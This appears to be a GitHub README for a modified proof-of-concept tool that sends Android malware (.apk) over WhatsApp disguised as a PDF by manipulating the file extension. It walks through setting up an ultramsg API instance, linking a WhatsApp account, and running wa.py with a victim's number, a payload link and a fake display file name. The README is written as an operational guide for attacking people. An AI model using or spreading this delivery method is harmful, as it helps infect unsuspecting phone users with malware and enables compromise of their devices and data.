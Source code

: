 # WhatsApp-extension-manipulation

This is a modified version of the original project by [0x6rss](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC), licensed under the MIT License.<br>

Android malware (.apk) can be spread through a fake PDF document by manipulating the file extension in the WhatsApp application. PoC is available in this repo


![](.resources/Wa_P-O-C.mp4
)

### Step 1: First, create a free account at [ultramsg](https://user.ultramsg.com/signup.php). We will use this to manage the API

### Step 2: Click the "Add Instance" button and create a new instance. <br>
<img src=".resources/R001.jpg "/> <br>


### Step 3: Log in to your WhatsApp application using the QR code found under the instance information. <br>
<img src=".resources/R002.jpg "/> <br>

### Step 4: Configuration token and API URL
```sh
python3 wa.py -t <token> -u <api url>
```
#### Show this help message
```sh
python3 wa.py -h 
```
###  To manually input one by one, type wa.py and run.
```sh
python3 wa.py
```
```sh
python3 wa.py -n <victim number> -d <payload, script link> -f <File name you want display>
```
## Disclaimer

This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.


## License

This project continues to be licensed under the [MIT License](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC/blob/main/LICENSE).

Original copyright:
© 2024 0x6rss

Modifications:
© 2025 Recluse-X

